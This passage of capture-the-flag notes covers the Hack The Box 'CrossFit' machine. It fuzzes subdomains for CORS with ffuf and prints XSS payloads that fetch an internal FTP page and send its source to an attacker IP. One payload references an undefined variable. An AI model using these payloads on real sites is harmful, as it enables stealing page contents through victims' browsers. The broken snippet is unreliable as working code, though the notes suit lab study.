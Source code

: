 Basically we are trying to enumerate subdomains that has the CORS enabled searching for responses where we receive `Access-Control-Allow-Origin`. This indicates that the subdomain accepts cross communication coming from gym-club.

IppSec did like this:
```
ffuf -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top -u http://10.10.10.208 -H 'Origin: http://FUZZ.crossfit.htb' -mr 'Access-Control-Allow-Origin' -ignore-body
```

Doing this, we find ftp.crossfit.htb. From our machine, this returns apache default page, but it could be different from gym-club.

Replicate the XSS changing the domain.
```js
var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if(fetch_req.readyState == XMLHttpRequest.DONE) {
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("POST", "http://10.10.14.11:3000", false);
        exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
    }
};
fetch_req.open("GET", "http://ftp.crossfit.htb/", false);
fetch_req.send();
```

IppSec did like this to receive the content in GET parameter encoded in base64.
```js
var target = 'http://ftp.crossfit.htb/';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();

var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.4/' + btoa(response), true);
req2.send();
```

We get this page source:
```html
<!DOCTYPE html>

<html>
<head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>

<br>
<div class="container">
        <div class="row">
        <div class="col-lg-12 margin-tb">
            <div class="pull-left">
                <h2>FTP Hosting - Account Management</h2>
            </div>
            <div class="pull-right">
                <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>
            </div>
        </div>
    </div>
    <table class="table table-bordered">
        <tr>
            <th>No</th>
```